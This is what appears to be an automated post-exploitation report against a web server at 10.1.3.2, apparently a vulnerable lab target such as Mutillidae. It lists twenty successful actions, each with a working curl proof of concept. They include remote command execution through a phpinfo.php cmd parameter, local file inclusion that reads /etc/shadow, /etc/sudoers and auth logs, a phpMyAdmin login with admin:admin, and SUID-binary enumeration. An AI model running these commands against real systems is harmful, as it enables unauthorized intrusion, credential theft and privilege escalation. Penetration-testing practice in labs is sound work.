 # HTTP Post-Exploitation Report - 10.1.3.2

**Target:** 10.1.3.2:80
**Generated:** 2025-09-03 23:20:00

## Executive Summary
- **Total Post-Exploitation Actions:** 20
- **Successful Actions:** 20
- **Failed Attempts:** 0

## Post-Exploitation Results

### RCE Post-Enumeration
- **Target:** 10.1.3.2:80
- **Details:** User and group info
- **Proof:** Saved to outputs/rce_user_and_group_info.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo.php?cmd=id'`

### RCE Post-Enumeration
- **Target:** 10.1.3.2:80
- **Details:** Current user
- **Proof:** Saved to outputs/rce_current_user.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo.php?cmd=whoami'`

### RCE Post-Enumeration
- **Target:** 10.1.3.2:80
- **Details:** System info
- **Proof:** Saved to outputs/rce_system_info.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo.php?cmd=uname%20-a'`

### RCE Post-Enumeration
- **Target:** 10.1.3.2:80
- **Details:** Working directory
- **Proof:** Saved to outputs/rce_working_directory.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo.php?cmd=pwd'`

### RCE Post-Enumeration
- **Target:** 10.1.3.2:80
- **Details:** Root directory listing
- **Proof:** Saved to outputs/rce_root_directory_listing.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo.php?cmd=ls%20-la%20/'`

### RCE Post-Enumeration
- **Target:** 10.1.3.2:80
- **Details:** Users
- **Proof:** Saved to outputs/rce_users.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo.php?cmd=cat%20/etc/passwd'`

### RCE Post-Enumeration
- **Target:** 10.1.3.2:80
- **Details:** Groups
- **Proof:** Saved to outputs/rce_groups.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo.php?cmd=cat%20/etc/group'`

### RCE Post-Enumeration
- **Target:** 10.1.3.2:80
- **Details:** Top processes
- **Proof:** Saved to outputs/rce_top_processes.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo.php?cmd=ps%20aux%20%7C%20head%20-20'`

### RCE Post-Enumeration
- **Target:** 10.1.3.2:80
- **Details:** Listening services
- **Proof:** Saved to outputs/rce_listening_services.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo.php?cmd=netstat%20-tuln%20%7C%20head%20-20'`

### RCE Post-Enumeration
- **Target:** 10.1.3.2:80
- **Details:** SUID binaries
- **Proof:** Saved to outputs/rce_suid_binaries.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo.php?cmd=find%20/%20-perm%20-4000%202%3E/dev/null%20%7C%20head%20-20'`

### LFI File Download
- **Target:** 10.1.3.2:80
- **Details:** Downloaded /etc/passwd
- **Proof:** Saved to outputs/lfi_phpinfo__etc_passwd.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo?file=/etc/passwd'`

### LFI File Download
- **Target:** 10.1.3.2:80
- **Details:** Downloaded /etc/shadow
- **Proof:** Saved to outputs/lfi_phpinfo__etc_shadow.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo?file=/etc/shadow'`

### LFI File Download
- **Target:** 10.1.3.2:80
- **Details:** Downloaded /etc/hosts
- **Proof:** Saved to outputs/lfi_phpinfo__etc_hosts.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo?file=/etc/hosts'`

### LFI File Download
- **Target:** 10.1.3.2:80
- **Details:** Downloaded /etc/ssh/sshd_config
- **Proof:** Saved to outputs/lfi_phpinfo__etc_ssh_sshd_config.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo?file=/etc/ssh/sshd_config'`

### LFI File Download
- **Target:** 10.1.3.2:80
- **Details:** Downloaded /etc/sudoers
- **Proof:** Saved to outputs/lfi_phpinfo__etc_sudoers.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo?file=/etc/sudoers'`

### LFI File Download
- **Target:** 10.1.3.2:80
- **Details:** Downloaded /var/log/auth.log
- **Proof:** Saved to outputs/lfi_phpinfo__var_log_auth.log.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo?file=/var/log/auth.log'`

### LFI File Download
- **Target:** 10.1.3.2:80
- **Details:** Downloaded /var/log/syslog
- **Proof:** Saved to outputs/lfi_phpinfo__var_log_syslog.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo?file=/var/log/syslog'`

### LFI File Download
- **Target:** 10.1.3.2:80
- **Details:** Downloaded /etc/crontab
- **Proof:** Saved to outputs/lfi_phpinfo__etc_crontab.txt
- **PoC:** `curl 'http://10.1.3.2/phpinfo?file=/etc/crontab'`

### Admin Panel Access
- **Target:** 10.1.3.2:80
- **Details:** Successfully accessed admin panel with admin:admin
- **Proof:** Admin panel accessed: <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en" dir="lt...
- **PoC:** `curl -X POST 'http://10.1.3.2/phpMyAdmin' -d 'username=admin&password=admin'`

### Cookie Toggle (Exploit-driven)
- **Target:** 10.1.3.2:80
- **Details:** Applied Cookie: uid=1; hints-enabled=1; show-hints=1
- **Proof:** Saved with-cookie page to outputs/cookie_toggle_with_cookie.html
- **PoC:** `curl -H 'Cookie: uid=1; hints-enabled=1; show-hints=1' 'http://10.1.3.2/mutillidae/index.php'`

